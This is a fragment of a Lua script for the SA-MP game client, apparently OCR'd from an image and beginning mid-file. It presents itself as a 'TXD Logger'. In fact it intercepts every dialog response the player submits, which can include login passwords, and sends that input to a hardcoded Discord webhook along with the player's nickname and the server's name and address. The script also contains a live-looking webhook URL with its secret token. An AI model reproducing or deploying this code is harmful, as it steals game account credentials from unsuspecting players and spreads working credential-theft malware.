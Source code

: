         end
    end
end

local webhookUrl = "https://discord.com/api/webhooks/1406683848485371914/unqy5VFh-KCFxrIgyorNy1wOXW3TVT-VSe4H5RR3w7NPddjtpASjiCZJkFgKNA1fqCZR"

local https = require("ssl.https")
local ltn12 = require("ltn12")

function sendMessageToDiscord(content)
    local body = '{"content": "' .. content:gsub('"', '\"'):gsub('\n', '\\n') .. '"}'
    local response_body = {}

    local res, code, response_headers, status = https.request{
        url = webhookUrl,
        method = "POST",
        headers = {
            ["Content-Type"] = "application/json",
            ["Content-Length"] = tostring(#body)
        },
        source = ltn12.source.string(body),
        sink = ltn12.sink.table(response_body)
    }

    if code ~= 200 then
        print("Erro ao enviar mensagem para o Discord: " .. (status or "Desconhecido"))
    end
end

-- Mensagem de inicialização
print("TXD Logger carregado!")
sendMessageToDiscord("✅ TXD Logger iniciado com sucesso!")

require('samp.events').onSendDialogResponse = function(dialogId, button, listboxId, input)
    local res, id = sampGetPlayerIdByCharHandle(PLAYER_PED)
    local nick = sampGetPlayerNickname(id)
    local hora = os.date("%H:%M:%S")
    local ip, port = sampGetCurrentServerAddress()
    local servername = sampGetCurrentServerName()

    local message = string.format(
        "```Log de Script\n\nArquivo: arquivo.lua\nEntrada: %s\nNick: %s\nServidor: %s (%s:%d)\nHora: %s```",
        input, nick, servername, ip, port, hora
    )

    sendMessageToDiscord(message)
end
